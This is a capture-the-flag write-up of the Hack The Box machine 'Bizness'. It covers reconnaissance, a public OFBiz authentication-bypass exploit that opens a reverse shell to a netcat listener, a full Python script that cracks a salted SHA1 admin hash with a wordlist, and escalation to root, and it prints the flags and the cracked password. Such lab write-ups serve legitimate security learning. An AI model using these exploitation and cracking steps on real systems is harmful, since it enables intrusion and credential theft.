

# Bizness

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

We start with `nmap`:

```sh
$ nmap -A -T4 10.10.11.252
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 14:19 CET
Nmap scan report for 10.10.11.252
Host is up (0.031s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.09 seconds
```

Add `bizness.htb` to `/etc/hosts`:

```sh
$ echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

And load the page:


Let's use [dirsearch](https://github.com/maurosoria/dirsearch) to search for directories:

```sh
$ dirsearch -u https://bizness.htb    

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11722

Output: /Users/vladimir/Downloads/CTF/reports/https_bizness.htb/_24-03-05_14-26-40.txt

Target: https://bizness.htb/

[14:26:40] Starting: 
[14:27:13] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[14:27:17] 400 -  795B  - /a%5c.aspx                                        
[14:27:20] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[14:28:06] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[14:28:12] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[14:28:12] 404 -  780B  - /common/config/api.ini                            
[14:28:12] 404 -  779B  - /common/config/db.ini                             
[14:28:12] 404 -  762B  - /common/
[14:28:17] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[14:28:17] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[14:28:17] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[14:28:18] 200 -   11KB - /control/login                                    
[14:28:20] 200 -   34KB - /control/                                         
[14:28:20] 200 -   34KB - /control 
```

We can try to open `accounting`:



`OFBiz` login page... Let's search for exploits. We can find following links: [Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) *(I have contributed to this repo)* and [BadBizness-CVE-2023-51467](https://github.com/Jake123otte1/BadBizness-CVE-2023-51467), so we can set up netcat listener:

```sh
$ nc -l 9001
```

And execute the script:

```sh
python3 badbizness.py ysoserial-all.jar https://bizness.htb 10.10.14.92 9001   

=================================================================
       ______           _ _     _                         
       | ___ \         | | |   (_)                        
       | |_/ / __ _  __| | |__  _ _____ __   ___  ___ ___ 
       | ___ \/ _` |/ _` | '_ \| |_  / '_ \ / _ \/ __/ __|
       | |_/ / (_| | (_| | |_) | |/ /| | | |  __/\__ \__ \
       \____/ \__,_|\__,_|_.__/|_/___|_| |_|\___||___/___/

                                v1.0
                        written by twopoint                         
=================================================================

[+] Starting Badbizness...
[+] Payload generation successful!
[~] Attempting to get reverse shell...
[+] Payload executed. Check your listener!
```

And we have reverse shell! Let's get `user` flag:

```sh
$ cat /home/ofbiz/user.txt
fe56eabceddf1e6d184e44a2b5727685
```

Now we need to escalate our privileges to `root` user. Upon searching in directories, we can find the file `c6650.dat`, that contains some admin password:

```sh
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings c6650.dat
strings c6650.dat
system
&6)]
system
	anonymous
admin
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

I have used following script to decrypt it:

```sh
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '../../dictionaries/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
```

Output:

```
Processing:  10%|█████                                              | 1437509/14344391 [00:03<00:32, 401394.49it/s]
Found Password:monkeybizness, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
```


So we can switch user to root and read the flag:

```sh
ofbiz@bizness:/opt/ofbiz$ su
su
Password: monkeybizness
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d8c48466b1ce37b2fe01e222384360b5
```

## Final Flags

> `user`: fe56eabceddf1e6d184e44a2b5727685
> `root`: d8c48466b1ce37b2fe01e222384360b5

*Created by [bu19akov](https://github.com/bu19akov)*